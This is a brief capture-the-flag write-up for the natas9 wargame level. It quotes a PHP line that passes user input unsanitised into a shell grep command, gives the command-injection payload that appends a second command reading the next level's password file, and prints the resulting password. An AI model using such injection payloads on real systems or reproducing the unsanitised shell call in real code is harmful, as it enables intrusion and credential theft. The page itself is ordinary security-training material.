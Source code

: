 ```yaml
---
layout: default
title: natas9
---
```




in this challenge we use command injection, this is the vuln part: `passthru("grep -i $key dictionary.txt");`

and this is the payload we gives `; cat /etc/natas_webpass/natas10`

**Flag:** ***`t7I5VHvpa14sJTUGV0cbEsbYfFP2dmOu`*** 